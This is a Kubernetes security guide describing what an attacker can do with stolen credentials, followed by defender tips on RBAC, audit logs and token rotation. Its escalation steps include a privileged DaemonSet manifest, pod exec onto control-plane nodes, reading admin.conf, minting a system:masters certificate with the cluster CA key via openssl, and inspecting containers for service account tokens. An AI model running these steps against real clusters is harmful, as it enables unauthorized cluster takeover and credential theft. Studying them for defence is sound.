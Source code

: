 # From Recon to Root: Kubernetes Credential Compromise Checklist

> 🚨 What happens *after* an attacker steals credentials?  
> This is the real danger—especially in Kubernetes.  
> This guide walks through exactly what an attacker can do next… and how defenders can shut it down.

---

## 🧠 Step 1: Assess What Access You Have

If you've gained access to a user account or service token, your first move is to understand what it's capable of.

### Use `kubectl`:
```bash
kubectl auth can-i --list

Or use rakkess:
```bash
rakkess --as <user>

This reveals the full RBAC permissions of the compromised identity—your map of what’s possible next.

🚀 Step 2: Privilege Escalation Techniques
Based on what rights are available, these are the most common attacker paths to cluster admin.

🔧 Option A: Create a DaemonSet and Exec Into It
If the compromised user can create daemonsets and exec into pods, this is a quick route to full cluster access.

```yaml

# Minimal DaemonSet YAML for pod exec access
apiVersion: apps/v1
kind: DaemonSet
metadata:
  name: root-daemon
spec:
  selector:
    matchLabels:
      name: root-daemon
  template:
    metadata:
      labels:
        name: root-daemon
    spec:
      containers:
        - name: root
          image: alpine
          command: ["sh", "-c", "sleep infinity"]
          securityContext:
            privileged: true


Then exec into each pod:

```bash
kubectl exec -it <pod-name> -- /bin/sh

If you're lucky and land on a control plane node, you can try to grab:

```bash
/etc/kubernetes/admin.conf

Or mint your own cert:

```bash
openssl genrsa -out user1.key 2048
openssl req -new -key user1.key -out user1.csr -subj "/CN=user1/O=system:masters"
openssl x509 -req -in user1.csr -CA /etc/kubernetes/pki/ca.crt -CAkey /etc/kubernetes/pki/ca.key -CAcreateserial -out user1.crt


This gives you cluster-admin access.

🔥 Option B: Pod Exec with Control Plane Targeting
If DaemonSets aren't allowed, but Pod creation is:

List nodes:

```bash
kubectl get nodes
Create a Pod with nodeName: set to a control plane node

Use tolerations to bypass taints like NoSchedule

kubectl exec to gain access and start exploring

🧪 Option C: Steal Tokens at Runtime (CRI Abuse)
With privileged container access on any node, use Docker or CRI to enumerate and inspect containers.

```bash
docker ps
docker inspect <container>


Or:

```bash
crictl ps
crictl inspect <container>


Look for mounted service account tokens with elevated privileges.

🕵️‍♂️ Defender Tips: How to Detect & Prevent This
✅ Restrict RBAC
Avoid create permissions on sensitive objects like Pods, DaemonSets, Roles, ClusterRoles.

✅ Use PodSecurity Policies (PSPs) or OPA Gatekeeper
Disallow privileged pods, enforce container-level restrictions.

✅ Audit Logs

Watch for:

kubectl exec

New DaemonSet creation

Pod creation on control plane nodes

✅ Rotate Tokens and Certificates
Short-lived tokens reduce the window for abuse.

✅ Use Tools Like:

kubeaudit

rakkess

kube-hunter

💬 Final Thoughts
Attackers don't need exploits—just access.

And with most breaches starting at the identity layer, this is where your defenses must begin. If you're serious about Kubernetes security, reconnaissance and misconfigured RBAC should keep you up at night.

—

🔒 Need help securing your Kubernetes or IAM setup? Book a free review

© Red Dog Security – Use, remix, and improve this with attribution. Licensed under MIT.
